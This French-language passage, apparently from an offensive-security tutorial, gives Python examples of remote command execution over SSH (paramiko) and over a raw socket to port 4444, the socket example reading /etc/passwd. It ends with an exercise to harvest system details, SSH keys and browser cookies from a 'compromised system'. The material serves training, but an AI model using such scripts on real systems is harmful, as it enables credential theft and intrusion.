 #### **Exemples pratiques :**

- **Exécution de commandes à distance avec `paramiko` (via SSH) :**
    ```python
    import paramiko

    def execute_remote_command(host, username, password, command):
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(host, username=username, password=password)
        stdin, stdout, stderr = ssh.exec_command(command)
        print("Output:\n", stdout.read().decode())
        ssh.close()

    host = '192.168.1.100'
    username = 'user'
    password = 'password'
    command = 'ls -la'
    execute_remote_command(host, username, password, command)
    ```
    Ce script utilise `paramiko` pour se connecter à un serveur SSH et exécuter une commande distante (`ls -la`).

- **Exécution de commandes à distance via `sockets` :**
    ```python
    import socket

    def remote_shell(host, port, command):
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))
            s.sendall(command.encode())
            data = s.recv(1024)
        print(f"Received: {data.decode()}")

    host = '192.168.1.100'
    port = 4444
    command = 'cat /etc/passwd'
    remote_shell(host, port, command)
    ```
    Ce script envoie une commande à un serveur distant via un socket et récupère la sortie.

---

### **4. Exercice : Créer un script qui récupère les informations sensibles d’un système compromis**

#### **Instructions de l'exercice :**
1. **Récupérez les informations système** : Utilisez des commandes comme `uname`, `hostname`, et d'autres commandes système pour extraire des informations sur l'architecture du système et la version de l'OS.
2. **Extraire les informations sensibles** : Lisez les fichiers tels que `/etc/passwd`, les clés SSH et les cookies du navigateur.
3. **Exécuter des commandes à distance** : Utilisez `paramiko` pour exécuter des commandes sur un système compromis via SSH ou un serveur de commande par socket.
4. **Stockez les informations extraites** dans un fichier de log pour une analyse future.
